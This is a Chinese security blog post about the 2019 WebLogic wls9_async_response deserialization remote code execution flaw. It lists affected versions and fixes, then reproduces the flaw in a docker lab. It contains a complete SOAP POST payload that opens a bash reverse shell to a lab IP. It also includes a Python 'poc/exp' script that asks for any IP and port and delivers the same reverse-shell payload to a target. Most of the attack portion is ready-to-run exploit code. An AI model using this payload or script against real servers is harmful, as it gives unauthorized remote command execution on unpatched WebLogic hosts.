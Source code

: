 ```yaml
---
layout:     post
title:      Weblogic反序列化远程代码执行漏洞
subtitle:   Weblogic反序列化远程代码执行漏洞
date:       2019-06-28
author:     看不尽的尘埃
header-img: img/post-bg-ios9-web.jpg
catalog: 	 true
tags:
    - 反序列化漏洞
    - Weblogic漏洞
---
```

  4月17日，国家信息安全漏洞共享平台（CNVD）公开了Weblogic反序列化远程代码执行漏洞，此漏洞存在于weblogic自带的wls9_async_response.war组件中，由于该war包在反序列化处理输入信息时存在缺陷，未经授权的攻击者可以发送精心构造的恶意 HTTP 请求，获取服务器权限，实现远程代码执行。

## 0x00 漏洞概述
**漏洞描述**
   该漏洞是由wls9_async_response组件导致，在反序列化处理输入信息时存在缺陷，攻击者可以发送精心构造的恶意 HTTP 请求，未授权的情况下远程执行命令。部分版本WebLogic中默认包含的wls9_async_response包，主要是为WebLogic Server提供异步通讯服务。

**漏洞等级**：高危

**漏洞编号**：CNVD-C-2019-48814

**影响范围**
* Oracle WebLogic Server 10.*
* Oracle WebLogic Server 12.1.3
* 启用bea_wls9_async_response组件的所有Weblogic版本

**修复建议**
* 删除wls9_async_response的war包并重启webLogic；
* 通过访问策略控制禁止 /_async/* 路径的URL访问。

## 0x01 环境搭建
我使用的是docker，比较方便。

启动docker命令如下：
```
systemctl start docker 
```
创建docker-compose.yml，内容如下：
```
version: '2'
services:
 weblogic:
   image: vulhub/weblogic
   ports:
    - "7001:7001"
```
启动测试环境命令如下：
```
docker-compose up -d
```
查看环境是否启动成功，命令如下：
![图片](https://uploader.shimo.im/f/FYSghtQ81g027cO2.png)
## 0x02 复现漏洞
访问如下URL：
```
http://10.20.40.96:7001/_async/AsyncResponseService
```

![图片](https://uploader.shimo.im/f/fldEV0l34pgQ0TKR.png)

通过burp suite repeater模块发送下面的POST数据包：
```
POST /_async/AsyncResponseService HTTP/1.1
Host: 10.20.40.96:7001
Content-Length: 787
Accept-Encoding: gzip, deflate
SOAPAction:
Accept: */*
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: keep-alive
content-type: text/xml


<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">   
<soapenv:Header> 
<wsa:Action>xx</wsa:Action>
<wsa:RelatesTo>xx</wsa:RelatesTo>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/10.20.40.97/7777 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body></soapenv:Envelope>
```

![图片](https://uploader.shimo.im/f/4sKcTqztUmYfvToM.png)
最终成功反弹到了10.20.40.97上
![图片](https://uploader.shimo.im/f/4TZMzTerVDsfD8aG.png)


## 0x03 python脚本
```
#!/usr/bin/python
# -*- coding:utf-8 -*-
# wirter:En_dust
import requests
import sys


headers = {'content-type':'text/xml','User-Agent':'Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_8; en-us) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50'}




def poc(target):
    if 'http' in target:
        url = target + '_async/AsyncResponseService'
        r =requests.get(url,timeout=2)
        if r.status_code ==200:
            print("[ + ] " + target + '可能存在Weblogic反序列化远程代码执行漏洞!' )
        else:
            print("[ - ] " +target + "不存在漏洞！")
def exp(target):
    ip = input("反弹到哪个IP?")
    port = input("反弹到哪个端口?")
    payload = '''
    <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">   
    <soapenv:Header> 
    <wsa:Action>xx</wsa:Action>
    <wsa:RelatesTo>xx</wsa:RelatesTo>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <void class="java.lang.ProcessBuilder">
    <array class="java.lang.String" length="3">
    <void index="0">
    <string>/bin/bash</string>
    </void>
    <void index="1">
    <string>-c</string>
    </void>
    <void index="2">
    <string>bash -i &gt;&amp; /dev/tcp/%s/%s 0&gt;&amp;1</string>
    </void>
    </array>
    <void method="start"/></void>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body>
    <asy:onAsyncDelivery/>
    </soapenv:Body></soapenv:Envelope>
    ''' % (ip, port)
    if 'http' in target:
        url = target + '_async/AsyncResponseService'
        r = requests.post(url,headers=headers,data=payload,timeout=2)
        if r.status_code ==202:
            print("反弹成功！")




if __name__ == '__main__':
    target = sys.argv[1]
    action = sys.argv[2]
    if target != '':
        if action == '':
            exit()
        elif action == 'poc':
            poc(target)
        elif action == 'exp':
```
            exp(target)



效果图：
![图片](https://uploader.shimo.im/f/te7JgRyrdEoEc3Fs.png)
![图片](https://uploader.shimo.im/f/1S1idCYDwoAeDvrw.png)
![图片](https://uploader.shimo.im/f/9s7faCCmdFckwD2N.png)

[Github下载地址](https://github.com/FiveAourThe/exploit-by-python/blob/master/Weblogic/Weblogic.py)



